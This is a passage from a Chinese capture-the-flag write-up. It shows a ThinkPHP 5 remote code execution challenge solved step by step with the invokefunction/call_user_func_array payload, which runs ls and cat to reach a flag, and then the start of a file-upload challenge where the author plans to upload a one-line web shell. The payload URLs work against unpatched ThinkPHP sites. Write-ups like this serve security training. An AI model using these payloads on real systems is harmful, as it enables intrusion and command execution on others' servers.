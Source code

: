 返回上一级目录

```text
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls ../
```

![image-20201202115412490](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202115412490.png)

继续返回上一级目录

```text
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls ../../
```

![image-20201202115454490](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202115454490.png)

继续

```text
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls% ../../../
```

![image-20201202115529644](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202115529644.png)

发现flag，使用cat命令

```text
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20../../../flag
```

![image-20201202115624080](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202115624080.png)

得到flag

```text
flag{thinkphp5_rce}
```

## 5、upload1

![image-20201202115923368](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202115923368.png)

看题目应该是文件上传的题

环境打开后如下

![image-20201202120756844](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202120756844.png)

准备上传一句话

![image-20201202120952427](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20201202120952427.png)

发现只允许上传图片
